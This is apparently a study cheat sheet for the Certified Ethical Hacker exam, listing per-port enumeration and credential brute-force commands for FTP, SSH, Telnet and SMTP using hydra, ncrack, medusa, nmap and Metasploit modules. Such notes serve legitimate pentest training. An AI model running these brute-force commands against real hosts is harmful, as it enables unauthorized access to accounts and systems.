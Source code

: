# CEH MASTER NOTES  <summary> </summary>

## ALWAYS DO SUDO SU
<details><summary>1. SCANNING</summary></details>
## 2. SERVICE ENUMERATION

### FTP PORT 21
https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp

**Brute force FTP**                         
hydra -L /usr/share/wordlist/users.txt -P /usr/share/wordlist/passwords.txt <host> ftp 
hydra -l administrator -P /usr/share/wordlist/passwords.txt <host> ftp 
ncrack -U usernames.txt -P passwords.txt ftp://<host>
ncrack -U usernames.txt -P passwords.txt <host>:21 -v 
medusa -h <host> -U usernames.txt -P passwords.txt -M ftp 
msf> auxiliary(scanner/ftp/ftp_login)>
set RHOSTS <target IP>
set user_file /path/usernames.txt
set pass_file /path/passwords.txt

**Download file from FTP after login** 
ls then get secret.txt

### SSH PORT 22
https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/

**Brute force username** 
hydra -l root -P passwords.txt [-t 32] <host> ssh
msf> use scanner/ssh/ssh_enumusers |

**Private key brute force**    
msf> use scanner/ssh/ssh_identify_pubkeys |

### TELNET PORT 23
https://book.hacktricks.xyz/network-services-pentesting/pentesting-telnet | https://www.hackingarticles.in/penetration-testing-telnet-port-23/ | https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#telnet

**Enumerate Telnet** 
nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <host>
**Brute force Telnet credentials** 
hydra -l root -P passwords.txt [-t 32] <host> telnet 

### SMTP PORT 25
https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp

**Initiate a TCP connection to port 25**
telnet <host>

**Finding MX servers of an organisation**    
dig +short mx google.com
